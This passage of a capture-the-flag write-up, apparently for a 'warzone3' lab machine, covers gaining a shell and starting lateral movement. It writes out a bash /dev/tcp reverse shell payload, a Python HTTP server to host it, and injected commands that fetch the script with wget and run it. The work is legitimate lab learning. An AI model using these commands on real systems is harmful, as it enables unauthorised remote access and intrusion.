 When I store the reverse shell payload in a file called `rs.sh`:
```shell
$ echo "bash -c 'bash -i >& /dev/tcp/192.168.2.31/1234 0>&1'" > rs.sh
```
And I open an `HTTP` server with `Python3`:
```shell
$ python3 -m http.server 8000
```
And I open the listener as I did above, and I write the following command in the assembler code:
```assembler
266 LDC "wget -O- 192.168.2.31:8000/rs.sh|bash"
```
And I repeat the process to run it again, then I can see why my reverse shell payload fail:

![evidence](./static/11-test-reverseshell.png)

And the `pipeline` is not being interpreted, then I decided to do the steps one by one. When I modify the assembler code again, and I write a command to download the `rs.sh` file in the `/tmp` directory:
```assembler
266 LDC "wget -O /tmp/rs.sh 192.168.2.31:8000/rs.sh"
```
And I repeat the process to run it again, and I write the code to give executable permissions to the file:
```assembler
266 LDC "chmod +x /tmp/rs.sh"
```
And I repeat the process to run it again, and I write the code to execute the `/tmp/rs.sh` file:
```assembler
266 LDC "/bin/bash /tmp/rs.sh"
```
And I repeat the process to run it again, then it works, I get the reverse shell:

![evidence](12-reverseshell.png)

## Lateral movement

I start exploring the server, when I check the home directory of the user `exomorph`:
```shell
$ exomorph@warzone3:~$ ls -la
...SNIPPED...
-r-x------ 1 exomorph exomorph  176 Nov 19  2020 .aliens.encrypted
-r-x------ 1 exomorph exomorph  176 Nov 19  2020 aliens.encrypted
...SNIPPED...
-r-x------ 1 exomorph exomorph 2912 Nov 19  2020 wrz3encryptor.jar
```
Then the `aliens.encrypted` and the `.aliens.encrypted` seem to be the same. When I use the `md5sum` command:
```shell
$ exomorph@warzone3:~$ md5sum aliens.encrypted .aliens.encrypted.bak
...SNIPPED...
```